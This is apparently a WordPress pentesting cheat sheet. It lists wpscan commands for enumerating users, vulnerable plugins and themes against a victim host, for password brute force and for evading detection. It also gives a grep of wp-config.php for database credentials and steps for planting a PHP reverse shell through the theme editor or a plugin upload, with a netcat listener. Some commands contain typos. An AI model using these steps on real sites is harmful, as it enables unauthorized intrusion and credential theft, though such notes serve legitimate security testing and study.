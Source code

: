 ### wpscan 

#### update wpscan 
- wpscna update

#### Scan
- wpscan --url https://[target_ip]
#### Vulnerable Plugins
- wpscan --url http://[victim_ip] --enumerate vp
- wpscan --url http://[victim_ip] --enumerate vp --plugins-detection aggressive
- wpscan --url http://[victim_ip] -e ap --plugins-detection aggressive
#### Vulnerable Themes
- wpscan --url http://[victim_ip] --enumerate vt
#### Enumerate Users
- wpscan --url http://[victim_ip] --enumerate u
#### Password Bruteforce
- wpscan --url http://[victim_ip] --passwords wordlist.txt --usernames xyz threads 50
#### Username Bruteforce
- wprscan --url http://[victim_ip] -U wordlist.txt 
#### All Plugins
- wpscan --url http://[victim_ip] --enumerate ap
#### All Themes
- wpscan --url http://[victim_ip] --enumerate vt
#### Database Exports
- wpscan --url http://[victim_ip] --enumerate dbe
#### Backups
- wpscan --url http://[victim_ip] --enumerate cb
##### Random User-Agent
- --random-user-agent
##### Avoid Detection(limited check)
- --stealthy
##### Disable SSL/TLS Security
- --disable-tls-checks
##### Disable Wordpress Detection
- --force
###### Docker pull the repo
- docker pull wpscanteam/wpscan
###### Docker Enumerate Usernames
- docker run -it --rm wpscanteam/wpscan --url
[victim_ip] --enumerate u
###### Get data from config file
- cat [/target/wp/path/wp-config.php |grep -E "DB_USER|DB_PASS"
----------------------------------------------------------------------------------------------------------------------------------------
### ReverseShell via thames

- Log_in
- Side menu
- Appearance
  - Editor
  - 404.php
  - paste php reverse shell
- run nc -lnvp [port]

- Open /wp-content/themes/twentyfiftee(change for your thames name)/404.php

----------------------------------------------------------------------------------------------------------------------------------------
### ReverseShell via plugins

- Log_in
- Side menu
- Plugins
  - Add New
  - Add Plugin Browse
  - search file for example in /wp-content location
- run nc -lnvp [port]



